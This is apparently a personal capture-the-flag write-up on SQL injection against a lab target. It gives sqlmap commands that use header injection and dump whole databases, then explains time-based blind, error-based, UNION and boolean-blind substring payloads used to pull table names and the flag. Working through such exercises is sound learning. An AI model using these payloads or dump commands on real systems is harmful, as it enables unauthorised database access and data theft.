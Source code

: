 Again praising being alive and kicking about ethical hacking prior to SQLmap, manual time-based blind SQLi would probably ruin PenTests and people lives.
```bash
sqlmap -u "http://10.10.X.X/user?id=1" --headers="X-forwarded-for:1*" --risk=3 --level=5 --dbms=mysql --threads 10 --dbs --time-sec=1
```

From the previous usage Hafiq gets to the database then in the following targets the sqlhell_1 database
```bash
sqlmap -u "http://10.10.X.X/user?id=1" --headers="X-forwarded-for:1*" --risk=3 --level=5 --dbms=mysql --threads 10 -D sqhell_1 --tables --dump-all --time-sec=1
```


## Beyond Root - Summarisation of 5?s

- Break down the syntax and the why and my understand a the details of how,where,why,which injecting(technique)
1. Classic login bypass - no really valuble for me to explain
2. `1' AND (SELECT * FROM (SELECT(SLEEP(1)))ocrz)-- nqrV` 
	1. `X-Forward-For: 1'` break query in the Header
	2. It is logging IP addresses so IP AND (QUERY) - IP=true and do this to=true
	3. This targeting SQHell_1 db, select all from here
	4. Then scripted SELECTing of each character if character SELECT != true do not sleep else SLEEP 1
3. Error based so the sqli occur as we breaka then fix the query 
```sql
-- contatenate info from these fields
-- Table schema is the map of the tables
--  table 
group_concat(table_schema, '+:+',table_name)
-- From the `tables` of the `schema` 
FROM+information_schema.tables
-- At this point of the query we have all the tables, but we do not want 
-- mysql the defulat table_name and the information schema
-- leaving just the custom tables names
+WHERE+table_schema+!%3d+'mysql'+AND+table_schema+!%3d+'information_schema'--+-
-- So for each line of the remain tables print:
-- $table_schema : $table_name
-- sqhell_5  : flag
-- sqhell_5  : posts
-- sqhell_5  : users
```

4. `0+UNION+ALL+SELECT+'1+UNION+ALL+SELECT+1,version(),3,4--+-','test2','test3'--+-`
	1. ID parametre  is injectable- not all injectv happen initally
		1. GET everything and in doing so break the query
			1. From all that is seleted for the columns ,1,2,3,4 print the result of a function or a string
	2. `admin' AND (select substring(flag,1,1) FROM flag='T'-- -`
	3. We get a response in json that is either true or false suing this we blindly figure out where each letter in a correct
	4. `substring(i, ii, iii)` 
		1. string
		2. This is the position in the string that we incrementally test till completion in the script
		3. This never changes as it is the length of the character
